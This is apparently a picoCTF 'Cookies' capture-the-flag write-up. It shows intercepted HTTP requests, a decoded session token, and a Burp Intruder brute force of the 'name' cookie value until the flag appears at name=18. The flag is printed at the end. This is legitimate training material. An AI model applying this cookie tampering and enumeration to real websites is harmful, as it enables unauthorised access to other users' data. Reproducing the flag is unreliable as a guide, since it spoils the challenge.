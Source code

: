 # Cookies

## Description
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)

## Write Up
First we'll fire up burp so we can have a look at the HTTP request that gets sent when you enter in a cookie name this is what we can see:

```
POST /search HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://mercury.picoctf.net:17781
DNT: 1
Connection: close
Cookie: name=-1
Upgrade-Insecure-Requests: 1

name=mint
```

This is the resultant HTTP request when I entered in mint into the search bar. The request has a Cookie header which has a "name" attribute, and the POST body has a "name" field with our input inside. 

If we forward our this request through a **GET** request gets created:

```
GET / HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=-1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShNXQ.I6h-imR03NfNpf3sg3t6btKuMEE
Upgrade-Insecure-Requests: 1
```

The Cookie header now has a session token which looks like a **JSON Web Token (JWT)**, If we copy it into a JWT decoder we can see that the token is malformed however, we can see some of its values:

```
{
  "_flashes": [
    {
      " t": [
        "danger",
        "That doesn't appear to be a valid cookie."
      ]
    }
  ]
}
```

It is telling us the Cookie value "name=-1" doesnt seem to be valid. So we will go back to the home page, enter a new cookie name in, intercept the request and alter the Cookie header attribute and see what happens. (NOTE: Additional GET request get created when we alter the "name" attribute, we will update the name attribute to our new number that we are trying with all these subsequent requests):

First request : **POST** to /search: name=1
```
POST /search HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Origin: http://mercury.picoctf.net:17781
DNT: 1
Connection: close
Cookie: name=1
Upgrade-Insecure-Requests: 1

name=
```

Second request: **GET** to /: name=1
```
GET / HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShPlQ.3fIqpvgH5hbrlUW69JrZkIQ5AH4
Upgrade-Insecure-Requests: 1
```

Third request: **GET** to /check: name=1
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShPlQ.3fIqpvgH5hbrlUW69JrZkIQ5AH4
Upgrade-Insecure-Requests: 1
```

We can see that the page responds with this:

![Image of chocolate
search](https://github.com/sixdeadbeefs/CTF/blob/main/PicoCTF/web-exploitation/cookies/images/chocolate.png)

So we know that cookie types are assigned to a number referenced in the name attribute. So we will use Burpsuite intruder to brute force name values starting 1. (NOTE: We dont sent the **POST** request to the intruder because we know that all the post requests to /search just get redirected, as we saw above with the subsequent requests we dealt with before, instead we send the request that gets generated after a POST is sent to /search)

Our positions will look like this, with attack type **Sniper**:
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=§-1§; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YSh3aA.J8b66mdt5q4dPoOSpNL9ARqqPfQ
Upgrade-Insecure-Requests: 1
```

And our payload will contain this configuration:

![Image of intruder configuration](https://github.com/sixdeadbeefs/CTF/blob/main/PicoCTF/web-exploitation/cookies/images/intruder-config.png)

After the intruder attack is done, we can see a list of all the requests sent and their responses back, if we start looking through the responses we will eventually come across the response to name=18 which contains our cookie.

picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}
